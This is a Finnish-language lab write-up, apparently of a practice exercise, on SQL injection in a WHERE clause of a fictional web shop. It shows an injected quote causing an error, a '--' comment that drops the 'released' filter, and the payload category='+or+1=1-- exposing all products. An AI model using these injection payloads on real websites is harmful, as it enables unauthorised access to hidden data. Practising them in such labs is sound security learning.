

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Tehtävänä on suorittaa SQL ingektio kuvitteelliseen verkkokauppaan saadakseen julkaisemattomien ja julkaistujen tuotteiden tietoja esiin. 

Tehtäväannossa on annettu SQL käsky joka hakee tietyn kategorian julkaistut tuotteet

    SELECT * FROM products WHERE category = 'Gifts' AND released = 1

Kyseinen käsky hakee 'products' taulusta kaikki tiedot kunhan 'category' on Gifts ja 'released' on 1 (tuote on julkaistu, released=0 tarkoittaa ettei tuotetta ole julkaistu).

Sivustolla ei ole toteutettu suojauksia SQL injektioita vastaan.
 
DevTools työkalun avulla voidaan nähdä polut joihin GET pyynnöt ohjautuvat:

    /filter?category=Gifts

DevTools -> NETWORK -> PATH

Enponti viittaa siihen mitkä tuoteryhmiä tullaan näkemään. Kokeillaan muokkamaan suoran endpointia suoraan urlissa. 

    /filter?category='
    Kategoriaksi asetetaan '. Huomataan että sivustolle ilmesty virheilmoitus "Internal Server Error"

Voidaan olettaa että kyseinen manipulaatio näkyy SQL käskynä seuraavanlaisena:

    SELECT * FROM products WHERE category = '

Seuraavaksi yritän saada näkyviin tietyn kategorian kaikki tuotteet, sekä julkaistut että julkaisemattomat.
SQL kommentointia voidaan suorittaa asettamalla -- komentoinnin eteen.
Tarkistellaan annettua SQL käskyä:

    SELECT * FROM products WHERE category ='Gifts' AND released = 1
    jos halutaan olla huomioimatta julkaistu-ehtoa
    tulee muuttaa käskyä seuraavaksi
    SELECT * FROM products WHERE category ='Gifts' -- AND released = 1

Asettamalla kommentoinnin syntaksi endpointiin huomataan että näkyviille tulee kaikki osaston tuotteet. Julkaitut ja julkaisemattomat. Sillä "AND released = 1" muuttuu kommentiksi ja sitä ei suoriteta.

Manipuloidaan seuraavaksi haettavan osaston käskyä.

    SELECT * FROM products WHERE category = "' or 1=1" -- AND relesed = 1 
    Käsky hakee tietokannasta kaikki tuotteet jos kategoria on ' tai 1=1(true) ja jättää huomioimatta released ehdon
    Muokataan url endpointia muotoon:
    /filter?category='+or+1=1--

Kaikki tuotteet tulevat näkyviin, sillä 1=1 on totta, eikä muita ehtoja ole.

Problem solved!

